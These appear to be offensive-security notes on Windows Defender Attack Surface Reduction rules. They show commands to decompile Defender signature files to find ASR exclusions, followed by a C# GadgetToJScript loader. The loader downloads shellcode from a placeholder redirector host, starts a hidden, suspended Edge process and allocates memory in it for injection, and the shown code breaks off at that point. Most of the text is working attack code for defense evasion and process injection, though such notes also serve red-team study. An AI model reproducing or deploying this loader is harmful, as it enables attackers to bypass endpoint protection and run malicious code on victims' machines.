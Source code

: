 In GPO
[[#Read GPO]]
#### Reversing ASR Exclusions
`cp /mnt/c/ProgramData/Microsoft/Windows\ Defender/Definition\ Updates/Backup/mpasbase.vdm .`
`python3 wd-extract.py mpasbase.vdm --decompile wd-extracted`

`cd wd-extracted`
`grep "Block all Office applications from creating child processes" *.lua`
open file and look for `GetPathExclusions`
#### MS Office Rules
Three relevant rules
- Block all Office applications from creating child processes
- Block Win32 API calls from Office macros
- Block Office applications from injecting code into other processes
##### GadgetToJScript
```c#
namespace TestAssembly
{
	public class Program
	{
		public Program()
		{
			byte[] shellcode;
			
			// download shellcode
			using (var client = new WebClient())
			{   
				// make proxy aware
				client.Proxy = WebRequest.GetSystemWebProxy();
				client.UseDefaultCredentials = true;
				
				// set allowed tls versions
				ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12 | SecurityProtocolType.Tls13;
				
				shellcode = client.DownloadData("https://[redirector]/shellcode.bin");
			};
			
			// create suspended MS Edge process
			var startup = new STARTUPINFO { dwFlags = 0x00000001 };
			startup.cb = Marshal.SizeOf(startup);
			
			var success = CreateProcessW(
				@"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe",
				@"""C:\Program Files\(x86)\Microsoft\Edge\Application\msedge.exe --no-startup-window --win-session-start /prefetch:5""",
				IntPtr.Zero,
				IntPtr.Zero,
				false,
				CREATION_FLAGS.CREATE_NO_WINDOW | CREATION_FLAGS.CREATE_SUSPENDED,
				IntPtr.Zero,
				@"C:\Program Files (x86)\Microsoft\Edge\Application",
				ref startup,
				out var processInfo);
			
			// allocate RW memory
			var baseAddress = VirtualAllocEx(
				processInfo.hProcess,
				IntPtr.Zero,
				(uint)shellcode.Length,
				ALLOCATION_TYPE.MEM_COMMIT | ALLOCATION_TYPE.MEM_RESERVE,
				PROTECTION_FLAGS.PAGE_READWRITE);
			
```
